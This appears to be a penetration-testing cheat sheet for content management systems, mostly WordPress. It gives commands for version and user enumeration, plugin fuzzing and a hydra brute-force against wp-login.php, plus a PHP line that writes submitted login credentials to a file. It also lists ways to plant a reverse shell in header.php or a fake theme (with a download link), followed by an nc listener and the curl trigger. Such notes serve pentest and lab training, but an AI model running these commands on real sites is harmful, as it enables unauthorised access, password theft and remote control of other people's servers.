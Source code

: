 # CMS

## Drupal

### PHP Code Execution
- Enable​ PHP Filter​ module on the ​ Modules​
- Add content​ then to ​ Article
- Pasting PHP into the article body
- Changing the ​ Text format​ to ​PHP code​
- Clicking on ​ Preview​

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)

## Wordpress
Version discovery

```
curl -s 192.168.56.102/wordpress/ | grep generator
curl -s 192.168.56.102/wordpress/readme.html | grep Version
curl -s 192.168.56.102/wordpress/wp-login.php | grep "ver="
```

User enumeration

```
for i in $(seq 1 5); do curl -sL 192.168.110.105/wordpress/?author=$i | grep '<title>'; done

// When 'stop-user-enumeration' plugin installed
curl -i -sL '192.168.56.102/wordpress/?wp-comments-post&author=1' | grep '<title>'
curl -sL 192.168.56.102/wordpress/?wp-comments-post -d author=1 | grep '<title>'

// Rest API (4.7+)
curl -s http://localhost/wp-json/wp/v2/users
```

Theme and plugin enumeration

```
/wordpress_site/wp-content/plugins/ and the /wordpress_site/wp-content/themes/

wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/CMS/wp_plugins.fuzz.txt --hc 404 192.168.56.104/wordpress/FUZZ

nmap -sV -p 80 192.168.56.102 --script=http-wordpress-enum.nse --script-args=http-wordpress-enum.root=/wordpress/
```

Enumerate users, plugins and themes

```
wpscan -u http://192.168.110.105/wordpress/ -e u,ap,at
```

Password brute-force 

```
echo admin > users.txt && echo wpuser >> users.txt

hydra -L users.txt -P lists/500.txt -e nsr 192.168.110.105 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:S=Location"

wpscan --users users.txt -w /root/lists/500.txt -u 192.168.110.105/wordpress/
```

Privilege escalations 

```
searchsploit wordpress escalation
```

Log passwords from wp-login.php

```
file_put_contents("creds.txt",$_POST['log']." - ".$_POST['pwd'])
```

Obtain shell

- Editing the main header.php script of the WordPress site to contain a reverse shell.
- Uploading a fake plugin containing a reverse shell.
- Uploading a fake theme containing a reverse shell. [http://www.mediafire.com/file/ya0qn83o0b5e3lu/fake-theme.zip](http://www.mediafire.com/file/ya0qn83o0b5e3lu/fake-theme.zip)

```
nc -lvp 31337
curl 192.168.56.102/wordpress/wp-content/themes/fake-theme/header.php
```



### Tools

- [WPScan - https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)
- [wpBullet - Static code analysis for WordPress Plugins/Themes](https://github.com/webarx-security/wpbullet)

## Joomla

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)

## Moodle

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)

## SilverStripe

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)
